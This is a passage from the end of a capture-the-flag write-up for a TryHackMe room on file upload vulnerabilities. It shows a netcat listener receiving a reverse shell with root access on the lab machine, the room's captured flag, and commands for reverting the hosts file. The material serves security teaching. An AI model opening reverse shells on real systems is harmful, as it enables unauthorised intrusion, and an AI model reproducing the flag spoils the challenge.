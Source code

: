 ```
```

```
kali@kali:~/CTFs/tryhackme/Upload Vulnerabilities$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.251.9 59444
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
cd ..
ls 
flag.txt
html
cat flag.txt
THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}
```

`THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}`

## Task 12 Conclusion

Well, that's us done. Hopefully you've learnt something from completing this room. This was a very brief introduction to the basics of file upload vulnerabilities -- there is a lot more to learn! Use what you've learnt here to go and research more advanced exploits related to malicious file uploads.

Now that you've finished the room, remember to revert the changes you made your hosts file, way back in Task 1.

As a reminder, here are the commands to do so.

**On Linux or MacOS:**

`sudo sed -i '$d' /etc/hosts`

**On Windows:**

`(GC C:\Windows\System32\drivers\etc\hosts | select -Skiplast 1) | SC C:\Windows\System32\drivers\etc\hosts`

Room completed, and hosts file reverted!

`No answer needed`
